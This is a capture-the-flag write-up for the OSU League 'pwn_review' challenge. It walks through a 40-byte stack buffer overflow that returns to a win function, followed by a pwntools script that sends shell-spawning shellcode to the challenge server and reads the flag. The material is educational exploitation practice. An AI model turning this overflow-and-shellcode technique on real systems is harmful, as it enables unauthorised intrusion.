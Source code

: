 ```yaml
---
title: "OSU League 2020/2021 - pwn_review Writeup"
date: 2020-10-30
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
A simple review challenge.  Let's see how it goes :3

So running the binary, we get some info:
```
This is a review challenge, you know the drill
Return to the win function and get the flag
gimme win function
```
Ok, so we need to return to the win function.  My guess is that this program is going to be susceptible to a buffer overflow.  Turns out it is!  After screaming at it for a bit, I was able to determine the buffer was 32 bytes, so our padding will be 40 bytes.

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/pwn_review
This is a review challenge, you know the drill
Return to the win function and get the flag
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
```
Sweet, we crashed, and if we look at RBP, we can see we have overwritten it with our Bs. `RBP: 0x4242424242424242 ('BBBBBBBB')`
That means whatever comes next will overwrite the instruction pointer, so we can return to wherever we want!

So let's actually find the address we want to return to.  We can use `objdump -d pwnreview | grep win` to find the location of the win function.
`0000000000400577 <win>:`

Great. So we know our padding will be 40 bytes, and we have the address.  So let's put what we have together so far in python:

```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)
payload = padding + win

log.info(payload)

io.sendline(payload)
io.interactive()
```
And running it we get:
```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode
This is a review challenge, you know the drill
Return to the win function and get the flag
nice! I'll execute any shellcode you give me now
$ booop?
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to ctf.ropcity.com port 31337
[*] Got EOF while sending in interactive
```

Hmm, looks like we aren't done quite yet.  We are give a prompt to enter some shell code.  So let's add a few more lines to our exploit that will spawn a shell for us.
```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)

shell = shellcraft.sh() #Pwntools shellcraft OP
shellcode = asm(shell)

payload = padding + win
log.info(payload)

io.sendline(payload)

io.recvuntil("you give me now")

io.sendline(shellcode)
io.interactive()
```

And running it we get a shell!:

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode

$ ls
flag
pwn_review
$ cat flag
osu{pwnt00ls_i$_Ch3A7iNG}
```

This was a pretty sick review covering the stuff we have learned so far! GG